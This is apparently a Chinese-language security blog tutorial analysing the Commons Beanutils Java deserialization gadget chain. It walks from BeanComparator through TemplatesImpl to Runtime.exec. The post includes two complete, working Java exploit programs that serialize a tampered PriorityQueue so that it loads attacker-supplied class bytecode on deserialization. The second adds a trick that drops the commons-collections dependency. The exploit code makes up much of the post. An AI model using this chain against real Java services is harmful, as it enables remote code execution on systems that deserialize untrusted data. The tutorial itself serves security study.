










# CommonsBeanutils利用链分析

## 前言

先简单了解一下`CommonsBeanutils`吧，`Apache Commons Beanutils`属于`Apache Commons `工具集下的一个项目，它提供了对 JavaBean（Java 类对象）的一些操作方法。

在 pom.xml 文件添加上依赖：
```xml
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.2</version>
</dependency>
```

接着我们通过一个简单的 demo 实际的了解一下，下面代码定义了一个 User 类
```java
package com.test;

public class User {
    private String username = "admin";

    public String getName(){
        return username;
    }

    public void setName(String name){
        this.username = name;
    }
}
```

在该类中，定义了一个私有属性`name`和两个方法：读取`name`和设置`name`。在 Java 中，我们把符合驼峰式命名法，以 get 开头的方法名叫做`getter`，以 set 开头的方法名叫做`setter`。

`Commons Beanutils`为开发人员提供了一个静态方法：`PropertyUtils.getProperty()`，通过该方法可以调用任意`JavaBean`中的`getter()`方法。因此我们可以通过如下代码调用 User 类的`getName()`方法获取 username 的值

```java
PropertyUtils.getProperty(new User(), "name");
```

> 除此之外， PropertyUtils.getProperty() 还支持递归获取属性，比如 a 对象中有属性 b，b 对象中有属性 c，我们可以通过 PropertyUtils.getProperty(a, "b.c"); 的方式进行递归获取。
>
> 通过这个方法，使用者可以很方便地调用任意对象的getter，适用于在不确定 JavaBean 是哪个类对象时使用。

## 利用链分析

先看一下给出的 gadget：
```java
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                siftDownUsingComparator()
                    BeanComparator.compare()
                        TemplatesImpl.getOutputProperties()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        TemplatesImpl.TransletClassLoader.defineClass()
                                            Pwner*(Javassist-generated).<static init>
                                                Runtime.exec()
```

是不是有点扑面而来的熟悉感，是的，这和前面所学习的 CC 链差不多。其实学习到现在反序列化专区的第十二篇，通过 gadget 大家都能直接写出对应的 exp，但我们还是对尚不熟悉的类作一下说明，走一遍流程。

既然前面提到了`PropertyUtils#getProperty()`方法，我们不妨来看看


可以看到，在`getProperty()`方法中，传入了两个参数： bean（对象）和 name（属性名），然后接着具体逻辑交给了`PropertyUtilsBean`类来处理。


而在`TemplatesImpl`类恰好有个`getOutputProperties()`方法可以调用到`newTransforme()`方法


看看`newTransforme()`方法


熟悉吗？是的，这不就是 CC2 后半部分加载恶意类字节码实例化的剧情嘛~，那么我们接下来需要找一个能调用`PropertyUtils.getProperty()`方法的类。

通过给出的 gadget，可以看到最终使用的是`BeanComparator#compare()`方法，那么我们去看看该类


在`BeanComparator`类的实例化方法可以看到，传入了`property`属性名称和`Comparator`类对象，如果为空，则默认是`ComparableComparator`

接下来看看`BeanComparator#compare()`方法


在`compare()`方法中，如果`property`不为空，则分别调用`PropertyUtils.getProperty()`方法获取传入的两个对象的`property`值，接着又调用了`internalCompare()`方法，跟进去看看


实例化构造方法传入的`Comparator`类对象并调用`compare()`方法进行比较，至此调用链就通了。

## 构造利用链

编写 EXP

```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/12/7 16:15
 */
public class CommonsBeanutils {
    public static void main(String[] args) throws Exception{
        CommonsBeanutils commonsBeanutils = new CommonsBeanutils();
        commonsBeanutils.serialize();
        commonsBeanutils.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // BeanComparator实例化
        BeanComparator beanComparator  = new BeanComparator<>("outputProperties");
        
        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;
    }
}
```

成功执行


但这里还遗留了一个问题，还记得我们前面说`BeanComparator`的实例化方法，默认的`comparator`属性会被设置为`ComparableComparator`类吗？我们来看看该类


可以看到`ComparableComparator`是在`commons collections`下的类，这意味着我们要利用的话，除了需要`commons-beanutils`依赖，还需要`commons-collections`的依赖。

这显然不是我们想要的效果，那么如何解决呢？回顾一下，其实我们整个调用链是用不到`BeanComparator`类的`comparator`属性，也就是说它是什么我们并不关心，所以最简单的办法就是找一个 JDK 自带的实现了`Serializable`接口和`Comparator`接口的类就行，这里我们使用`java.util.Collections$ReverseComparator`


因此最终构造的 exp 为：
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/12/7 16:15
 */
public class CommonsBeanutils {
    public static void main(String[] args) throws Exception{
        CommonsBeanutils commonsBeanutils = new CommonsBeanutils();
        commonsBeanutils.serialize();
        commonsBeanutils.unserialize();
    }

    public void serialize() throws Exception {
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 反射实例化 java.util.Collections$ReverseComparator
        Class cls = Class.forName("java.util.Collections$ReverseComparator");
        Constructor constructor = cls.getDeclaredConstructor();
        constructor.setAccessible(true);
        Comparator reverseComparator = (Comparator) constructor.newInstance();

        // BeanComparator实例化
        BeanComparator beanComparator  = new BeanComparator<>("outputProperties", reverseComparator);

        PriorityQueue priorityQueue = new PriorityQueue<>(1);
        priorityQueue.add(1);
        priorityQueue.add(1);
        // 通过反射修改queue
        Object[] objectsArrary = new Object[]{templates,1};
        Field queue = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,objectsArrary);
        // 通过反射将comparator修改为前面的链子
        Field comparator = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(priorityQueue, beanComparator);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(priorityQueue);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/test/tool/ExecEvilClass.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;
    }
}
```

